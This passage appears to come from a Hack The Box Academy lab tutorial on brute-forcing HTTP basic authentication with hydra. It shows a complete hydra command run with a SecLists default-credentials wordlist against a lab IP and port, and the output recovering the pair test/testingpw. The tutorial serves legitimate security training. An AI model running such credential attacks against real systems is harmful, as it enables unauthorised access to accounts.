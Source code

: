 We can find a list of default password login pairs in the [SecLists](https://github.com/danielmiessler/SecLists) repository as well, specifically in the `/opt/useful/SecLists/Passwords/Default-Credentials` directory within Pwnbox. In this case, we will pick `ftp-betterdefaultpasslist.txt` as it seems to be the most relevant to our case since it contains a variety of default user/password combinations. We will be using the following flags, based on help page above:

| **Options**                        | **Description**               |
| ---------------------------------- | ----------------------------- |
| `-C ftp-betterdefaultpasslist.txt` | Combined Credentials Wordlist |
| `SERVER_IP`                        | Target IP                     |
| `-s PORT`                          | Target Port                   |
| `http-get`                         | Request Method                |
| `/`                                | Target Path                   |

The assembled command results:

Default Passwords

```shell-session
root@htb[/htb]$ hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.211.23.155 -s 31099 http-get /

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking http-get://178.211.23.155:31099/
[31099][http-get] host: 178.211.23.155   login: test   password: testingpw
[STATUS] attack finished for 178.211.23.155 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

It's pretty common for administrators to overlook test or default accounts and their credentials. That is why it is always advised to start by scanning for default credentials, as they are very commonly left unchanged. It is even worth testing for the top 3-5 most common default credentials manually, as it can very often be found to be used.

We can visit the website again and try the same pair to verify that they do work:

![](https://academy.hackthebox.com/storage/modules/57/bruteforcing\_index.jpg)

As we can see, we do get access, and the pair indeed works. Next, we can try to attempt running the second type of scan by separate user wordlists for usernames and passwords and see how long it takes to find the same pair we just identified.

## Username Brute Force

We now know the basic usage of `hydra`, so let us try another example of attacking HTTP basic auth by using separate wordlists for usernames and passwords.
